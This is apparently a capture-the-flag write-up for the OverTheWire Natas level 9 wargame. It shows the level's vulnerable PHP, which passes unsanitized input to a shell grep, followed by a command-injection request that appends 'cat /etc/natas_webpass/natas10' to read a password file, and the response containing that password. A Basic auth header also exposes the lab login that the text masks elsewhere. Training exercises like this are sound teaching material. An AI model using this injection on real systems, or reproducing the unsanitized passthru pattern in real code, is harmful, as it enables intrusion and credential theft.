 # level 9

**Host**: http://natas9.natas.labs.overthewire.org
>natas9:ZE1ck82lmdGIoErlhQgWND**********

When you visit the site, you get a formfield saying "Find words containing:".

```
Find words containing:
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

The interesting part ist the "grep -i $key dictionary.txt" which indicates that you can inject commands because there is no input sanitization. You can add a `cat /etc/natas_webpass/natas10` to your request:

```http
GET /?needle=test%3bcat+/etc/natas_webpass/natas10&submit=Search HTTP/1.1
Host: natas9.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXM5OlpFMWNrODJsbWRHSW9FcmxoUWdXTkQ2ajJXeno2YjZ0
Connection: keep-alive
Referer: http://natas9.natas.labs.overthewire.org/?needle=&submit=Search
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

This gives you the password for natas10 in the response:

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 18:43:20 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 461935

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
t7I5VHvpa14sJTUGV0cbEs**********

African
Africans
Allah
Allah's
American
...
```